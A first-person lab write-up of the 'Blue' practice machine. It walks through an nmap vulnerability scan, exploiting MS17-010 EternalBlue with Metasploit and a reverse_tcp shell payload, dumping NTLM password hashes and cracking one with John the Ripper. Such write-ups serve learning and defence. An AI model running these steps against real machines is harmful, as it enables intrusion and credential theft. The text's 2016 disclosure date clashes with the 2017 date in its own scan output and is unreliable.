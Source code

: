 = Blue

Author:: 0x42697262
Category:: Windows
Difficulty:: Easy
Play Date:: 2024/03/26 - 2024/03/26

== Information

**Deploy & hack into a Windows machine, leveraging common misconfigurations issues.**

This machine is vulnerable to https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/[MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption] exploit.
Disclosed on March 14, 2016.

EternalBlue exploits a flaw in SMBv1 (and partially SMBv2) where specially crafted packets can trigger remote code execution without authentication.
Once exploited, it allows an attacker to run arbitrary code on the victim machine, essentially gaining full control.

This was used by WannaCry and NotPeya.

This box is quite nice for teaching the basics of pwning.
Hopefully, this writeup is enough to teach anyone.

== Task 1) Recon

First, I want to get information about the machine.
Mostly, everyone uses xref:知識:ROOT:nmap.adoc[nmap] to scan the machine for online hosts, open ports, and discover services.

The full scan command is:

----
# nmap -sS -sV -O -T5 --script=vuln --traceroute 10.10.5.211 -oN blue.nmap
----

Oh, **nmap** requires root privileges.

The explanation of each argument is listed below:

* ``-sS``: Performs a **SYN (stealth) scan** to check for open ports without completing full TCP handshakes.
* ``-sV``: Attempts to **detect service versions** on open ports to identify specific software.
* ``-O``: Enables **OS detection** to guess the target’s operating system based on responses.
* ``-T5``: Uses **maximum speed (insane timing)** for faster scanning but with higher chance of detection.
* ``--script=vuln``: Runs **vulnerability detection scripts** to check for known issues (e.g. MS17-010).
* ``--traceroute``: Traces the **network path (hops)** to the target to map network routes.
* ``10.10.5.211``: Specifies the **target IP address** to scan.
* ``-oN blue.nmap``: Saves the **output in normal format** to a file named `blue.nmap`.

As for the reason why I used ``-T5``, that's because I did not care about the machine.
If it were to be in a real life situation, I probably want the timing to be the lowest value to avoid getting detected.

.nmap -sS -sV -O -T5 --script=vuln --traceroute 10.10.5.211 -oN blue.nmap
----
$ nmap -sS -sV -O -T5 --script=vuln --traceroute 10.10.5.211 -oN blue.nmap
Nmap scan report for 10.10.5.211 (10.10.5.211)
Host is up (0.31s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|8.1|2012|Embedded Compact 7|10 (99%), Microsoft embedded (94%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_embedded_compact_7 cpe:/o:microsoft:windows_10 cpe:/h:microsoft:xbox_one
Aggressive OS guesses: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1 (99%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (97%), Microsoft Windows Server 2012 or 2012 R2 (96%), Microsoft Windows Server 2008 R2 SP1 or Windows 7 SP1 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 Professional SP1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP2, Windows 7, or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008, or Windows Embedded Compact 7 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   108.63 ms 10.17.0.1 (10.17.0.1)
2   ... 4
5   406.66 ms 10.10.5.211 (10.10.5.211)
----

In the nmap report, there are **3** ports **open** that is under 1000.

The machine is also highly vulnerable.

----
A critical remote code execution vulnerability exists in Microsoft SMBv1 servers (ms17-010).
----

**ms17-010** is a vulnerability known as **EternalBlue**.
Some quick search online is enough to give me brief description of it.

== Task 2) Gain Access

Now that I know the type of vulnerability the machine has, I can fire up **metasploitable**.

To be honest, I don't really like the method of just using existing tools then exploit a system only to call it "hacking".
But for the sake of learning the basics, I'll be doing exactly that.
Researching about EternalBlue is still outside my skill level.

First, start metasploit.

.Running msfconsole
image::blue/1-msfconsole.png[]

Then I searched for the exploit in metasploit.

.Searching for ms17-010
image::blue/2-search.png[]

There are a total of 29 modules to choose from.
I chose the most basic one, module **#0**.

.Using exploit/windows/smb/ms17_010_eternalblue
image::blue/3-use.png[]

Before I can start running the exploit, I need to set some options first.
This can be done by running ``show options``.

.Showing options
image::blue/4-show.png[]

Notice that there are 4 required options.
3 of those has already been configured by default, but **RHOSTS** is missing.

This is our target host, the remote machine's IP address.
My remote machine's IP address is **10.10.5.211**.

So, I set the value of **RHOSTS** to **10.10.5.211**.

.Set RHOSTS
image::blue/5-rhosts.png[]

Wait, before I start executing the exploit, I need to double check the **LHOST** (local host, my attacker machine, me, whoami, bird, whatever) otherwise the exploit would not work.
This is something I had to figure out why my exploit didn't work before.

Currently, the value of **LHOST** is not configured properly.
Since I am using OpenVPN, I need to set the IP address accordingly.

Wait!
One last more.

Before executing, the current payload of meterpreter is set to ``windows/x64/meterpreter/reverse_tcp`` by default.
I need to set it manually as practice.

.Set payload
image::blue/6-payload.png[]

Finally, I can run the exploit!


.Exploit failed
image::blue/7-exploit_fail.png[]

Errrr..... The exploit has failed... Anyways, not a problem.

Based on the log, **port 4444** is already in use.
Most likely because I had previous metasploit shell running and didn't terminate it properly.
I just need to set the **LPORT** to something else then rerun the exploit.

.Exploit Success!
image::blue/8-exploit_success.png[]

And by gambling, the exploit should be a success!

== Task 3) Escalate

Currently, my shell has no system privilege.
That can be upgraded by going back to meterpreter by hitting ``^Z`` and run the ``shell_to_meterpreter`` module.

.Upgrading privileges
image::blue/9-upgrade.png[]

This is how to run the ``shell_to_meterpreter`` module.

.Using shell_to_meterpreter module and changing session
image::blue/10-modules.png[]

After this,I need to change the **SESSION** option.

A list of sessions can be viewed by running ``sessions list``.

.Showing sessions lists
image::blue/11-list.png[]

Set the session to **1** and exploit.

.Set session
image::blue/12-session.png[]

Finally, use the newly created session.

.Use session 2
image::blue/13-use.png[]

Now, I need to upgrade my shell to **NT AUTHORITY\SYSTEM** since that has higher privileges.
Even though my current shell is already **NT AUTHORITY\SYSTEM**.

.Show processes to migrate
image::blue/14-ps.png[]

Migrating to a process is a gamble.
Sometimes it works.
Sometimes it fails.

I just need to find some process that the shell can migrate to.

.Migration
image::blue/15-migrate.png[]

Luckily, it only took me 2 tries.
Well, I have an inkling on what kind of process to touch or not but I can't really put evidence to it yet.

== Task 4) Cracking

Here's the most tedious part, cracking hashes!
Especially if it's in the real world since no dictionary can ever grab your password if it's unique.

But this is a practice lobby so dictionaries is the key.

Simply run ``hashdump`` and get the hashes.

.hashdump
image::blue/16-hashdump.png[]

After that, save it to a file and bruteforce the hashes.

.Using John The Ripper to bruteforce
image::blue/17-john.png[]

Finally got the password of the user: ``alqfna22``.

== Task 5) Find flags!

I am a lazy person.
I do not like manually finding the flags on directories I am not familiar with.

Luckily, MS-DOS has regex search.
And I already know the flag's filename format: **flag*.txt**

.regex search
----
dir C:\ /s /b | findstr "flag.*\.txt"   
----

Make sure to run ``shell`` in meterpreter shell first.
After that, execute the search!

.Using REGEX search for the flag.
image::blue/18-regex.png[]

I found 3 files that's named ``flag1.txt``, ``flag2.txt``, and ``flag3.txt``.

To print each flags, simply run ``type <filename>`` and that's it.

== Conclusion

This challenge is very simple, it was very fun to be able to learn new things.
This writeup intends as my note for the future.

Some parts were skipped or glossed over, and some doesn't even have proper explanation why such tool is used instead of another one.
Let's just say it's for the sake of experiencing new and learning something new.

== TL;DR

.Meterpreter commands
----
exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
post/multi/manage/shell_to_meterpreter
----

----
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
----

.Bruteforce hashes
----
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (aad3b435b51404eeaad3b435b51404ee)
1g 0:00:00:06 DONE (2024-11-04 11:19) 0.1577g/s 1608Kp/s 1608Kc/s 1608KC/s alr1979..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
----

.Search flags
----
dir C:\ /s /b | findstr "flag.*\.txt"   
----
